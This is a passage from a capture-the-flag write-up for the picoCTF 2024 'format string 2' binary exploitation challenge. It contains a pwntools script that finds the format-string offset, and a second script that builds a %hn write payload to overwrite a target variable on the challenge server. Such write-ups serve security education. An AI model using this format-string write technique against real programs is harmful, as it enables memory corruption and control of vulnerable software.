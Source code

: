 ```python
    log.info(f"Parsed output: {out}\n")
    try:
        # Little endian case
        res_le = p64(int(out, 16), endianness="little").decode()
        log.debug(f"Little endian value: {res_le}\n")
        if (res_le == MY_INPUT):
            print(f"Found start of input ({MY_INPUT}) with little endian at offset {i}")
        # Big endian case
        res_be = p64(int(out, 16), endianness="big").decode()
        log.debug(f"Big endian value: {res_be}\n")
        if (res_be == MY_INPUT):
            print(f"Found start of input ({MY_INPUT}) with big endian at offset {i}")
    except Exception:
        pass
    io.recvall()
    io.close()
```

We run the script to get the offset

```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/Binary_Exploitation/format_string_2]
└─$ ~/python_venvs/pwntools/bin/python find_offset.py
Found start of input (ABCDEFGH) with little endian at offset 14
```

We confirm that the input starts at offset 14.

### Get the flag - scripted solution

Next we create an exploitation script where we divide the writing of the goal value in two parts and adjust the offset due to additional data before the target addresses we write to. We write the upper part first since it's smaller than the lower part.
We also make sure that the target addresses are aligned in memory.

```python
#!/usr/bin/python

from pwn import *

SERVER = 'rhea.picoctf.net'
PORT = 57654

exe = context.binary = ELF('./vuln', checksec=False)

target = exe.symbols.sus
goal_value = 0x67616c66
offset = 14

# Set output level (critical, error, warning, info, debug)
context.log_level = "info"

upper_goal = (goal_value >> 16) & 0xFFFF
lower_goal = goal_value & 0xFFFF

lower_address = p64(target)
upper_address = p64(target+2)

payload = f'%{upper_goal}c'.encode() # Padding
payload += f'%{offset+4}$hn'.encode() # Format string for upper half
payload += f'%{lower_goal - upper_goal}c'.encode() # More padding
payload += f'%{offset+5}$hn'.encode() # Format string for lower half
payload += (8 - (len(payload) % 8)) * b'_' # Aligment
payload += upper_address
payload += lower_address

```